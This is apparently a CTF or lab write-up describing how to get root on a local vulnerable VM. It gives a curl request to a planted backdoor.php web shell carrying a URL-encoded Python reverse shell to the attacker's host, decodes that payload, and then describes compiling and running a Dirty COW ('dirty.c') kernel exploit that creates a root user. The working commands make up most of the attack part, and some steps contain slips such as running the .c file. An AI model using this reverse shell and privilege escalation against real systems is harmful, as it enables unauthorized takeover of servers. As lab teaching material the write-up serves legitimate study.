



# writeup 2

We have to do in the same way as in **writeup1** until using **curl** tool))

After doing that we have an incredible way to get the control of the root

**REVERS SHELL**

A reverse shell is a type of network connection where an attacker gains control of a target machine by initiating a connection from the target to the attacker's machine. In a typical shell attack (standard shell), the attacker directly connects to the target machine. However, in a reverse shell, the roles are reversed: the target system initiates the connection to the attacker's system

Do not be scared, everything is done for educational purposes)



here is the encrepted code of it 

```
curl --insecure 'https://192.168.56.101/forum/templates_c/backdoor.php?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%2Cpty%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.56.1%22%2C1234%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dpty.spawn%28%22%2Fbin%2Fbash%22%29%3B%27'
```

Don't be scared 2, this is just an url encode python code of this

```
import socket, subprocess, os, pty;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.56.1",1234));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=pty.spawn("/bin/bash");
```

You can simply write on your own code then just seach on Google **url encoder** and translate to this

We have done this to get a reverse shell and execute cmd on server,

So, now we need some kind of kernel exploit to have a root

On this picture you can see cmds and potential issues.



If you see exact same thing, Congratulations!!!🥳 you also got an error🆘😅
This shows that curl did not work properly -> to fix it do this

```
cat > dirty.c << end
# and we gonna copy code here
```



Then we commpiled it via this and run

```
gcc dirty.c -o dirty -pthread -lcrypt
./dirty.c
```
we entered the new password

AAAAANNNNNNDDDDDD that's it we have done it🚨
Check **/etc/passwd** to see if the new user was created.
You can log in with the username 'firefart' and the password 'gago'
You can also use **id** to check that it is root as id is 0
